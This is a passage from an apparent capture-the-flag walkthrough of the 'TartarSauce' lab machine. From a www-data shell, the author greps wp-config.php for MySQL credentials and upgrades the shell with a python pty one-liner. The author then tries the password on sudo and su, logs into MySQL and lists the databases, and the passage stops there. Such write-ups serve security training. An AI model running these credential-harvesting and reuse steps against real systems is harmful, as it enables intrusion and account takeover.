 Checking the WordPress installation configuration file reveals MySQL username and password 
```
www-data@TartarSauce:/var/www/html$ cat webservices/wp/wp-config.php|grep DB_
cat webservices/wp/wp-config.php|grep DB_
define('DB_NAME', 'wp');
define('DB_USER', 'wpuser');
define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');
define('DB_HOST', 'localhost');
define('DB_CHARSET', 'utf8');
define('DB_COLLATE', '');
```
Upgrading the shell with python
```
www-data@TartarSauce:/var/www/html$ python -c 'import pty; pty.spawn("/bin/bash")'
<ww/html$ python -c 'import pty; pty.spawn("/bin/bash")'
```

Trying _su_ and _sudo_ with revealed password - unsuccessfull
```
www-data@TartarSauce:/var/www/html$ sudo su -
sudo su -
[sudo] password for www-data: w0rdpr3$$d@t@b@$3@cc3$$

Sorry, try again.
[sudo] password for www-data: w0rdpr3$$d@t@b@$3@cc3$$

Sorry, try again.
[sudo] password for www-data: w0rdpr3$$d@t@b@$3@cc3$$

sudo: 3 incorrect password attempts
www-data@TartarSauce:/var/www/html$ su -
su -
Password: w0rdpr3$$d@t@b@$3@cc3$$

su: Authentication failure
www-data@TartarSauce:/var/www/html$ su - onuma
su - onuma
Password: w0rdpr3$$d@t@b@$3@cc3$$

su: Authentication failure
www-data@TartarSauce:/var/www/html$
```

MySQL enumeration
```
www-data@TartarSauce:/var/www/html$ mysql -u wpuser -p
mysql -u wpuser -p
Enter password: w0rdpr3$$d@t@b@$3@cc3$$

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 333
Server version: 5.7.22-0ubuntu0.16.04.1 (Ubuntu)
...
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wp                 |
+--------------------+
2 rows in set (0.00 sec)

mysql> use wp;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

```